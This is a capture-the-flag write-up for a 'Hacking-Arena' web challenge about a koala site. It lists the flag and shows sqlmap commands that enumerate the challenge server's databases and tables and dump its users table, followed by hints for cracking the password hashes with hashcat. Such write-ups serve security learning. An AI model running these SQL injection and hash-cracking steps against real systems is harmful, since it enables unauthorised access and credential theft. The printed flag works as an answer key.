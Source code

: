 # Flag

> Hacking-Arena{Oh_don't_you_please_take_me_home}

# Prompt

> I need to login to look after what my koala bears are doing. I forgot the password, holy cow(la)!

[http://koala.hackingarena.no:802](http://koala.hackingarena.no:802/) [http://koala.hackingarena.com:802](http://koala.hackingarena.com:802/) (same site)

I think you can get it as well as the flag. Need a little patience, cracking might take 20 minutes (if you know what to crack :) )

# Solution

Utilize SQLMAP to exploit the HTTP Get form and retrieve databases

GET http://koala.hackingarena.com:802/index.php?song=Banana boat song

Command:
sqlmap -u "http://koala.hackingarena.com:802/index.php" --forms -dbs

![[Pasted image 20241115183959.png]]

Next exploit is for retrieving tables from database 'user' using command:
sqlmap -u "http://koala.hackingarena.com:802/index.php" --forms -D user --tables  

![[Pasted image 20241115184128.png]]

Lastly for sqlmap, output content from table users to retrieve password and usernames.

![[Pasted image 20241115184226.png]]

From here on, go back to the website and inspect the source code for the instructions to creating passwords. Use the structure and crack the hash(es) using hash-cat with following structure:

Lowercase
Uppercase
Digits
Minimum length of 6


# Additional Info

Additional solution / info